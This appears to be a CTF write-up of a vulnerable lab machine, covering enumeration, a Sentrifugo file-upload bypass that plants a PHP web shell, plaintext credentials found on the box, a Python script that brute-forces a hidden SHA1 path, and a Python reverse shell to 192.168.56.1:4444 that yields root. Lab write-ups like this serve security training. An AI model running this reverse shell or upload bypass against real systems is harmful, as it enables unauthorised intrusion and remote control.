<h4 align="center">Box Author: <a href="https://twitter.com/_creosote"> Melvin C</a></h4>

## Nmap



so there is a SMTP server there and also there is a HTTP service on port 8191.

Let's start our enumeration from HTTP service.

***

## HTTP


we can see a really cool looking GIF. I ran gobuster on the website and found we directories:



The first thing I checked was the `robots.txt`



From there I decided to look into `/zorin` and there I found `hr.html` which had a message



```
In the mean time use /sentrifugo for current HR mgmt.

During this transition period all new users (from now on) will have their sentrifugo passwords automatically set to toor so no real email address is required for the system to send the initial automatically generated password. Please be patient as the reset to toor may take up to a minute.
```

Then in `/dev` I found some files.



The first thing I downloaded from that one was `e_bkup.tar.gz` which had 3 `rtf` file and one of them named `New_Employee_Onboarding_Chuck.rtf` had some information on what the password for `Chuck` would be.



```
Greeting Chuck, We welcome you to the team! Please login to our HR mgmt portal(which we spoke of) and fill out your profile and Details. Make sure to enter in the descrption of your CISSP under Training & Certificate Details since you mentioned you have it. I will be checking that section often as I need to fill out related paperwork. Login username: chuck@localhost.com and password is the lowercase word/txt from the cool R&D video I showed you with the remote detonator + the transmit frequency of an HID proxcard reader - so password format example: facility007. Sorry for the rigmarole, the Security folks will kill me if I send passwords in clear text. We make some really neat tech here at Zorin, glad you joined the team Chuck Lee! }
```

So after looking at the `remote_control.gif` I found out that the password was `helicopter125`. Now on the `/zorin/hr.html` we found out that for `HR mgmt` we need to visit `/sentrifugo`.



Using `chuck@localhost.com - helicopter125` I was able to login into the HR system. Now I looked around but didn't found anything then I used  `searchsploit` and found out that there were 3 vulnerabilities.



The crazy part is that all these vulnerabilities are actually found by the box author himself.

I tried the XSS vulnerability but that didn't worked for (it worked for @andreaz) so I decided to use the [File Upload Restriction Bypass](https://www.exploit-db.com/exploits/47323). In that exploit two places are mentioned to upload the shell:

```
/sentrifugo/index.php/mydetails/documents -- Self Service >> My Details >> Documents (any permissions needed)
sentrifugo/index.php/policydocuments/add -- Organization >> Policy Documents (higher permissions needed)
```

But none of them were accesible, then [@theart42](https://twitter.com/theart42) found that we are allowed to upload the expense report in `/sentrifugo/index.php/expenses/expenses`.

You can follow the exploit to get the RCE on the system. All you need to do is upload a file named `shell.php.doc` and while uploading edit the file name to `shell.php` and then save it. Then you need to visit
```
http://192.168.56.136/sentrifugo/public/uploads/expense_receipt_temp/1573960913_3_shell.php
```

And to be able to execute command we need to enter parameter `?cmd=`



Once I had the RCE I tried executing the `nc` command but I was not able to run them. So I uploaded a php reverse shell and then executed it which gave me the shell.



***

## Privilege escalation

In the `/home/jenny` I found a `zip` file.



I downloaded the zip file and then unzipped it and it gave out `password.txt` and `todo.txt`







```
hr mgmt:
jenny@localhost.com - ThisisAreallYLONGPAssw0rdWHY!!!!

ssh
jenny - !!!sfbay!!!

```

Using those SSH credential I logged into jenny's account.



I started looking around and in `/home/max` I found a `note.txt` which read

```
Max,

The electronic controller web application you asked for is almost done. Located on port 8191 this app will allow you to execute your plan from a remote location.

The remote trigger is located in a hidden web directory that only you should know - I verbally confirmed it with you. If you do not recall, the directory is based on an algorithm:  SHA1(lowercase alpha(a-z) + "view" + digit(0-9) + digit(0-9)).

Example: SHA1(rview86) = 044c64c6964998ccb62e8facda730e8307f28de6 = http://<ip>:8191/044c64c6964998ccb62e8facda730e8307f28de6/

- Scarpine
```

This mean we need to write a code to be able to do that. To brute force the path I wrote a script in python which found the correct path for me:

```python
import string
from hashlib import sha1

import requests

URL = "http://192.168.56.136:8191/{}"
paths = []

for alpha in string.ascii_lowercase:
    for n in string.digits:
        for m in string.digits:
            path = sha1((alpha + "view" + n + m + "\n").encode("utf-8")).hexdigest()
            paths.append(path)


for i in paths:
    url = URL.format(i)
    r = requests.get(url)
    if len(r.content) > 167:
        print(url)
        break
```

With this I was able to find the correct URL to visit:

http://192.168.56.136:8191/7f98ca7ba1484c66bf09627f931448053ae6b55a

When I opened that URL I got a page with huge red button in it.


When we hit that button we get



This mean it's executing the code that is supposed to be in `aView.py` because following was the content of `aView.py`



so I copied the following code in that python file:

```python
import socket,subprocess,os
import pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.56.1",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

And then pressed that red button to get shell as root.



Then I got the root flag.




***

Oh this was an awesome machine just like other machines by creosote. I really enjoyed this, especially the fact that initial foothold depends on the vulnerabilities that were found by the author himself. 😱😱

Thanks for this awesome machine. Also thanks to [@theart42](https://twitter.com/theart42) and [@4nqr34z](https://twitter.com/4nqr34z) for the help.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
